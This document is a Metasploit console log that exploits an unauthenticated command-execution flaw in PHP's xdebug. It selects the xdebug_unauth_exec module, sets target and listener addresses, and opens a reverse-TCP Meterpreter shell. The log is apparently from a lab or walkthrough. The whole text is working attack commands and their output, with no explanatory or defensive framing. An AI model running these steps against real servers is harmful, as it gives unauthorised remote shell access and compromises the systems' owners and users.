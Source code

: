 ```
msf5 > search xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


msf5 > use exploit/unix/http/xdebug_unauth_exec
msf5 exploit(unix/http/xdebug_unauth_exec) > show options

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /index.php       yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 192.87.169.3
RHOSTS => 192.87.169.3
msf5 exploit(unix/http/xdebug_unauth_exec) > set LHOST 192.87.169.2
LHOST => 192.87.169.2
```

```
msf5 exploit(unix/http/xdebug_unauth_exec) > exploit

[*] Started reverse TCP handler on 192.87.169.2:4444 
[*] 192.87.169.3:80 - Waiting for client response.
[*] 192.87.169.3:80 - Receiving response
[*] 192.87.169.3:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.87.169.3:80 - Sending payload of size 2026 bytes
[*] Sending stage (38247 bytes) to 192.87.169.3
[*] Meterpreter session 1 opened (192.87.169.2:4444 -> 192.87.169.3:45546) at 2023-02-09 10:10:45 +0000

meterpreter >
```

